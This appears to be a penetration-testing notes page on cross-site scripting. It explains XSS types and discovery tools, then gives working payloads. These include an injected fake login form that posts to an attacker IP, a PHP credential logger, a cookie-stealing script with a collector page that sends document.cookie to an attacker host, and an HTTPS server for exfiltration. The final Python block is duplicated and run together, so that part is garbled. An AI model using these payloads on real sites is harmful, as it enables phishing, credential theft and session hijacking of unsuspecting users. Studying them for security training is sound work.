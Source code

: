 ```yaml
---
description: Cross-Site Scripting
---
```


# XSS

When a vulnerable webapp receiving HTML code from back-end and rendering it on client-side does not properly santize user input its possible to inject Javascript code into input fields.

### <mark style="color:yellow;">XSS Attacks</mark>

Stored XSS is persistant meaning stored on server and will affect any user which visits the page.

Non-persistent meaning not stored on server and temporary. Reflected XSS gets processed by server and DOM-based XSS is fully processed on client-side, never reaching back-end server.

<table><thead><tr><th width="161">Type</th><th>Descriptions</th></tr></thead><tbody><tr><td>Stored XSS</td><td>Most critical, occurs when user input is stored on back-end database.</td></tr><tr><td>Reflected XSS</td><td>Occurs when user input is displayed after being processed by backend server.</td></tr><tr><td>DOM XSS</td><td>Occurs when user input is directly shown in the browser and is completely processed on the client-side</td></tr></tbody></table>

### <mark style="color:yellow;">XXS Discovery</mark>

Use automated scanners like Nessus, Nikto, Burp, ZAP. Or open source tools:

* XSS strik
* Brute XSS
* XSSer

Manuallly test using XSS payloads intro input elements and HTTP headers. [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)

Code review, understand how input is being handled to write custsom payloads.

### <mark style="color:yellow;">XSS Attacks</mark>

There is defacing where we can change the look and feel of website, even changing text.

Phishing attack

```html
# Create Login page
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Payload

```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.24:8888><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

Simple PHP script

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

### <mark style="color:yellow;">Session Hijacking</mark>

Its possible to use JavaScript to collect victim's cookies and send them to their own server and login.

Sometimes we can't see how our input is handled which is called Blind XSS, we can still check for vulns by using http requests.

```bash
# Write this line to script.js
new Image().src='http://PWNIP:PWNPO/index.php?c='+document.cookie;

# Host index.php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

# Start listener
php -S 0.0.0.0:8080

# Execute payload
"><script src=http://PWNIP:PWNPO/script.js></script> 
```

### <mark style="color:yellow;">HTTPS Exfiltration</mark>

Modern browsers prevent HTTPS website from loading resources via unencrypted HTTP connections, so if we were to accept a cookie we can use a regular python http server. Setup https python server.

```python
# Create certificate
 openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
 
# Python server
from http import server
import ssl

httpd = server.HTTPServer(('0.0.0.0', 4443), server.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever() from http import server
import ssl

httpd = server.HTTPServer(('0.0.0.0', 4443), server.SimpleHTTPRequestHandler)

# Create SSL context
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile='./server.pem')

# Wrap socket with the context
httpd.socket = context.wrap_socket(httpd.socket, server_side=True)

httpd.serve_forever()
```
